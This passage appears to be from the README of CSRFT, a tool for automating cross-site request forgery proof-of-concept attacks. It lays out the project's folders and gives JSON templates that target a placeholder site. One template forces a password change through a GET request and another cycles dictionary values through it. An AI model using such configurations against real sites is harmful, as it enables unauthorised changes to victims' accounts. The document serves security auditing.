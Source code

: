 ### Different folders : What do they mean ?

The idea is to provide a 'basic' hierarchy (of the folders) for your projects. 
I made the script quite modular so your configuration files/malicious forms, etc. don't have to be in those folders though. 
This is more like a good practice/advice for your future projects. 

However, here is a little summary of those folders :

* ```conf folder``` : add your JSON configuration file with your configuration. <br />
* ```exploits folder``` : add all your *.html files containing your forms
* ```public folder``` : containing jquery.js and inject.js (script loaded when accessing 0.0.0.0:8080)
* ```views folder``` : index file and exploit template
* ```dicos``` : Folder containing all your dictionnaries for those attacks
* ```lib``` : libs specific for my project (custom ones)
* ```utils``` : folder containing utils such as : csrft_utils.py which will launch CSRFT directly.
* ```server.js``` file - the HTTP server

### Configuration file templates 

#### GET Request with special value

Here is a basic example of JSON configuration file that will target **www.vulnerable.com** 
This is a *special value* because the malicious payload is already in the URL/form. 

```
{
  "audit": {
    "name": "PoC done with Automatic Tool", 
    "scenario": [
      {
        "attack": [
          {
            "method": "GET", 
            "type_attack": "special_value", 
            "url": "http://www.vulnerable.com/changePassword.php?newPassword=csrfAttacks"
          }
        ]
      }
    ]
  }
}
```

#### GET Request with dictionnary attack

Here is a basic example of JSON configuration file. 
For every entry in the dictionnary file, there will be a HTTP Request done. 

```
{
  "audit": {
    "name": "PoC done with Automatic Tool", 
    "scenario": [
      {
        "attack": [
          {
            "file": "./dicos/passwords.txt", 
            "method": "GET", 
            "type_attack": "dico", 
            "url": "http://www.vulnerable.com/changePassword.php?newPassword=<%value%>"
          }
        ]
      }
    ]
```